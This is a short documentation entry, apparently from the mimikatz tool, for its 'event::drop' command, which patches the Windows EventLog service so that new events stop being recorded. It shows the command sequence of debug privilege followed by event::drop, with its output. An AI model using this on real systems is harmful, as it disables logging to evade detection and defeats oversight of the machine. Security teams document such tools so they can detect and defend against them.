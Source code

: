 # drop

Patch Events service to avoid new events \( ⚠ experimental\)

```text
mimikatz # privilege::debug
Privilege '20' OK
```

```text
mimikatz # event::drop
"EventLog" service patched
```

